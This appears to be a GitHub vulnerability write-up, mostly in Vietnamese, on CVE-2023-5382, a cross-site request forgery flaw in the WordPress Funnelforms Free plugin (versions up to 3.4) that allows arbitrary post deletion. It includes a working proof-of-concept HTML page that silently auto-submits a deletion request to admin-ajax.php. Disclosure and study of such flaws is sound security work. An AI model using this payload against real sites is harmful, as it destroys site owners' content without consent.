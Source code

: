 # CVE-2023-5382

- Plugin : Funnelforms Free
- Phiên bản lỗi : <=3.4
- Lỗi : Cross-Site Request Forgery to Arbitrary Post Deletion
- CVSS Score: 6.5 (MEDIUM)

![image](https://github.com/Manh130902/wordpress/assets/93723285/443175e8-3e2a-4fc5-98a3-5d5492eeaacc)

# Mô tả

- Plugin Funnelforms Free dành cho WordPress dễ bị tấn công bởi Giả mạo yêu cầu trên nhiều trang web ở các phiên bản lên đến và bao gồm cả 3.4. Điều này là do xác thực nonce bị thiếu hoặc không chính xác trên hàm fnsf_delete_posts. Điều này giúp những kẻ tấn công không được xác thực có thể xóa các bài đăng tùy ý thông qua một yêu cầu giả mạo với điều kiện là chúng có thể lừa quản trị viên trang web thực hiện một hành động chẳng hạn như nhấp vào liên kết.

# POC

- PoC (This will delete the form with ID 1)

```
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://example.com/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="af2&#95;fnsf&#95;delete&#95;posts" />
      <input type="hidden" name="post&#95;ids&#91;&#93;" value="1" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
```

# Khai Thác
